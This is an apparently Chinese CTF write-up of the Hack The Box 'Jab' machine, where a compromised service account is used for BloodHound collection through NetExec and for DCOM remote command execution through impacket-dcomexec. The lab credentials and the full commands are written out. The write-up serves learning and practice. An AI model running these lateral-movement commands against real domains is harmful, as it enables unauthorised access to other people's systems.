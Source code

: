## svc_openfire凭据下的探索

继续重复前面的步骤，结果一无所获。  
于是又翻看着那份**[域渗透思维导图](https://orange-cyberdefense.github.io/ocd-mindmaps/)**，目前是“valid credentials”的阶段。其中说的获取用户清单、枚举SMB共享、LDAP之前都试过了没什么有用信息。那就转向“bloodhound”看看吧。

*另外，枚举用户和SMB共享看他用的[CME（CrackMapExec）](https://github.com/byt3bl33d3r/CrackMapExec)，想起来之前看到说CME已经停止维护了，现在似乎[NetExec（nxc）](https://github.com/Pennyw0rth/NetExec)是其替代品，于是正好在这台机器也实践了一下NetExec。竟然能枚举出SMB共享列表（前面用`smbclient`都直接报错不能登录来着）。还挺神奇的。*

### BloodHound探索

首先看到**[域渗透思维导图](https://orange-cyberdefense.github.io/ocd-mindmaps/)**中用的命令是`bloodhound-python`，[安装](https://www.kali.org/tools/bloodhound.py/)执行后总是报错（后来发现其实加入`-ns`选项就能解决，当时没懂）。于是倒腾了一下`nxc`发现其ldap模块也能调用bloodhound，于是索性用`nxc`解决了。  
`nxc ldap 10.10.11.4 -u svc_openfire -p '!@#$%^&*(1qazxsw' --bloodhound -c all -ns 10.10.11.4`

结果输出一个zip文件，然后意识到需要GUI，于是还得[安装完整的bloodhound](https://www.kali.org/tools/bloodhound/)。配置好之后上传zip结果文件，点了点预定义的搜索没发现什么有用的信息（可能主要是不太会用）。最后想到直接搜搜目前拿到的两个域账户，结果发现`svc_openfire`似乎是可利用的：
![HTB-bloodhound-svc_openfire](HTB-Jab-bloodhound-svc_openfire.png)


### ExecuteDCOM

搜了下`ExecuteDCOM`，发现了值得参考的文章：
> 利用方法：<https://simondotsh.com/infosec/2021/12/29/dcom-without-admin.html>  
> 扩展知识：<https://book.hacktricks.xyz/windows-hardening/lateral-movement/dcom-exec#mmc20.application>

按照文章中的命令执行，发现卡在“SMBv3.0 dialect used”，最后发现用`-nooutput`选项就好了：  
*因为卡在SMB连接，而help看这个选项说“no SMB connection created”。*  
*而后细看上面文章提到的`-silentcommand`，试了下也行，可能理由一样，就是文章里说的“since the script is using an SMB share to write and fetch the output, and our low-privileged user cannot write to any.”？*

```bash
┌──(kali㉿kalik)-[~/Lab/HTB/Jab/infoG]
└─$ impacket-dcomexec jab.htb/svc_openfire:'!@#$%^&*(1qazxsw'@10.10.11.4 "whoami" -object MMC20
Impacket v0.11.0 - Copyright 2023 Fortra

[*] SMBv3.0 dialect used
^C[-] 


┌──(kali㉿kalik)-[~/Lab/HTB/Jab/infoG]
└─$ impacket-dcomexec jab.htb/svc_openfire:'!@#$%^&*(1qazxsw'@10.10.11.4 "whoami" -object MMC20 -nooutput
Impacket v0.11.0 - Copyright 2023 Fortra

┌──(kali㉿kalik)-[~/Lab/HTB/Jab/infoG]
└─$ 
```


## Initial Access
